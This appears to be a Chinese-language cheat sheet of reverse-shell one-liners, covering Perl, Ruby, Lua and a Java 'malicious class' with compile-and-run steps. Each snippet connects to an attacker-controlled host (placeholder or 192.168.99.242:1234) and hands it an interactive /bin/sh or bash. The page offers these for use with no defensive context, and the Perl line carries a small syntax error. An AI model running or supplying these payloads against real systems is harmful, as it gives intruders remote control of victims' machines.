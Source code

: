 **perl反弹**

Perl一种功能丰富的计算机程序语言，运行在超过100种计算机平台上，适用广泛，从最初是为文本处理而开发的，现在用于各种任务，包括系统管理，Web开发，网络编程，GUI开发等。

~~~bash
perl -e 'use Socket;$i="ip"$p=port;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

**Ruby反弹**

- Ruby，一种简单快捷的面向对象（面向对象程序设计）脚本语言。


```bash
ruby -rsocket -e'f=TCPSocket.open("[攻击机ip]",[port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

**java反弹**

- 编写执行反弹shell命令的java恶意类，例如：


~~~java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
~~~

* 编译并执行恶意类，成功反弹shell

  ```bash
  javac Revs.java
  java Revs
  ```


**Lua反弹**

- Lua 是一个小巧的脚本语言。 其设计目的是为了嵌入应用程序中，从而为应用程序提供灵活的扩展和定制功能。Lua由标准C编写而成，几乎在所有操作系统和平台上都可以编译，运行。Lua并没有提供强大的库，这是由它的定位决定的。Lua 有一个同时进行的JIT项目，提供在特定平台上的即时编译功能。

    ```bash
    lua -e "require('socket');require('os');t=socket.tcp();t:connect('[攻击机ip]','[port]');os.execute('/bin/sh -i <&3 >&3 2>&3');"
    ```
